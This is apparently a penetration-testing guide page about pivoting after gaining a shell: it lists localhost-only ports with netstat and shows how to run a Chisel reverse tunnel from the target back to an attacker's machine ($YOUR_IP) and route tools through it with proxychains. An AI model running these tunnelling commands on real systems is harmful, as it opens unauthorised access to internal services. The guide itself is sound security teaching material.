 ```yaml
---
description: How to best communicate between you and everything on your target
---
```


# Networking

## Tunneling

Developers often only expose ports to the public when they need to, so unnecessary ports like MySQL are often only reachable from the inside. While for an attacker, that is a gold mine. So when you get a shell on a machine as a low-priviledge user, you might want to try and access these internal services.&#x20;

First off, you can view all the listening ports with the following command:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netstat -punta | grep -i listen
</strong>tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
</code></pre>

In the above example, there are two ports that listen on `0.0.0.0`, meaning they allow connections from anywhere. But more interesting, there are two other ports that listen on `127.0.0.1`. This means they are only accessable from localhost, or the machine itself. It does not allow connections from the outside.&#x20;

So when you are on a machine with any ports open on the `127.0.0.1` address, you can now access them from the inside. We can run commands like `curl`, or `mysql` on the machine itself, but we would have to be lucky that those programs are installed, or that they can be downloaded. We also then work completely on the command line, and a graphical application like a browser would not work.&#x20;

This is where tunneling comes in. It allows you to create a path for the traffic where it is initially sent to your attacking machine, and then forwarded to the actual target. This allows you to use all of your own installed tools on that localhost port, in order to attack the target machine.&#x20;

### Chisel

{% embed url="https://github.com/jpillora/chisel" %}
A tool with a client and server to tunnel traffic to a target's localhost
{% endembed %}

Chisel is a useful tool that is very easy to set up. You simply need a **server** on your own machine, and a **client** on the target machine that connects to your server. Simply **copy** **a binary** from the [releases](https://github.com/jpillora/chisel/releases) to you and your target, and then the basic commands are as follows:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ chisel server -p 8080 --reverse  # Attacker: server
</strong>2023/01/01 00:00:00 server: Reverse tunnelling enabled
2023/01/01 00:00:00 server: Fingerprint raoElJaMVZlkiW9tCVXfLxR8IpBoQayS7wqa2ntl8sk=
2023/01/01 00:00:00 server: Listening on http://0.0.0.0:8080

<strong>$ ./chisel client $YOUR_IP:8080 R:socks  # Target: client
</strong>2023/01/01 00:00:00 client: Connecting to ws://10.10.10.10:8080
2023/01/01 00:00:00 client: Connected
</code></pre>

{% hint style="info" %}
**Note**: This requires two extra terminal screens to run these two commands, that both need to keep running to keep your connection alive
{% endhint %}

After the client connects, you should see a message like the following:

```
2023/01/01 00:00:00 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

This means the client successfully connected, and a tunnel was made. It tells you now that on your own `127.0.0.1:1080`, there now exists a socks proxy that you can use with all your tools.&#x20;

### Proxychains

{% embed url="https://github.com/haad/proxychains" %}
A tool that forces any TCP connection made by any given application to follow through a proxy
{% endembed %}

Proxychains is a tool that allows you to proxy existing tools to your new socks proxy from above. It just requires a tiny bit of configuration to make sure it knows to use the socks proxy we created on port `1080`. This is done using the `/etc/proxychains.conf` file. It might already contain some settings, but just change the `[ProxyList]` at the end to add your socks5 proxy:

```toml
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 1080
```

With this set, you can now simply **prepend** `proxychains` to the command, and your localhost becomes the target localhost!

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ proxychains curl localhost:3000
</strong>[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:3000  ...  OK
&#x3C;!DOCTYPE html>
...

<strong>$ proxychains firefox --offline
</strong></code></pre>
